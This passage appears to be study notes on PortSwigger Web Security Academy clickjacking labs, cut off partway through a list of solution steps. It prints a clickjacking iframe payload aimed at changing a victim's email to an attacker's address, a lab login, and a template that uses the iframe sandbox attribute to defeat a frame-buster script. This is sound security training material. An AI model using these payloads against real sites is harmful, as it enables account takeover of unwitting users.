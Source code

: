 ```html
    }
</style>
<div>Click me</div>
<iframe src="https://0a49000903337674c047132a00870052.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```



#### Clickjacking with a frame buster script

> This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address?
>
> To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed.
>
> You can log in to your own account using the following credentials: wiener:peter 

buster script

```javascript
<script>
    if(top != self) {
        window.addEventListener("DOMContentLoaded", function() { 
            document.body.innerHTML = 'This page cannot be framed';}, false);
    }
</script>
```

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        Log in to the account on the target website.
                    </li>
                    <li>
                        <p>
                            Go to the exploit server and paste the following HTML template into the "Body" section:
                        </p>
                        <code class="code-scrollable">&lt;style&gt;
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
&lt;/style&gt;
&lt;div&gt;Test me&lt;/div&gt;
&lt;iframe sandbox="allow-forms"
src="$url?email=hacker@attacker-website.com"&gt;&lt;/iframe&gt;</code>
                    </li>
                    <li>
                        Make the following adjustments to the template:
                        <ul>
                            <li>
